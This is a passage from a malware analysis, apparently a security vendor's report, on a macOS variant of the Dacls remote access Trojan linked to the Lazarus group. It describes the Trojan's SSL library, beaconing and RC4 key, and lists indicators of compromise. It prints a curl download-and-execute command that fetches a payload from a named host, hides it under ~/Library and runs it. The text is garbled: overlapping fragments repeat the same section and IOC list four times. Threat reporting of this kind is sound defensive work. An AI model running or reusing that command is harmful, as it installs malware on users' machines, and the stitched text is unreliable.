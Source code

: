  Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227
 The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227
 The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227
 Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227